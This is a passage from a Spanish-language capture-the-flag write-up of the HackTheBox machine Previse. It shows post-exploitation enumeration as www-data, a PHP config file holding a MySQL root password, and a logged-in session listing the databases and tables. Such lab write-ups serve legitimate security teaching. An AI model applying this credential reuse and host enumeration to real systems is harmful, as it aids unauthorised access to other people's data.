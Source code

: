 Voy a enumerar un poquillo:
```
www-data@previse:/home/m4lwhere$ ls -la
total 44
drwxr-xr-x 5 m4lwhere m4lwhere 4096 Jul 28  2021 .
drwxr-xr-x 3 root     root     4096 May 25  2021 ..
lrwxrwxrwx 1 root     root        9 Jun  6  2021 .bash_history -> /dev/null
-rw-r--r-- 1 m4lwhere m4lwhere  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 m4lwhere m4lwhere 3771 Apr  4  2018 .bashrc
drwx------ 2 m4lwhere m4lwhere 4096 May 25  2021 .cache
drwxr-x--- 3 m4lwhere m4lwhere 4096 Jun 12  2021 .config
drwx------ 4 m4lwhere m4lwhere 4096 Jun 12  2021 .gnupg
-rw-r--r-- 1 m4lwhere m4lwhere  807 Apr  4  2018 .profile
-rw-r--r-- 1 m4lwhere m4lwhere   75 May 31  2021 .selected_editor
lrwxrwxrwx 1 root     root        9 Jul 28  2021 .viminfo -> /dev/null
-rw-r--r-- 1 m4lwhere m4lwhere   75 Jun 18  2021 .vimrc
-r-------- 1 m4lwhere m4lwhere   33 Apr  6 06:13 user.txt
```
El user.txt, la primera flag, no puedo abrirla siendo www-data.

Recuerda que habíamos encontrado una contraseña a la base de datos:
``` php
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```
No puedo cambiarme a ningún usuario con esta contraseña pero si que puedo probar a conectarme a la base de datos ahora que estoy ya dentro:
```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+
5 rows in set (0.01 sec)

mysql> use previse;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

mysql> show tables;
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
2 rows in set (0.00 sec)
```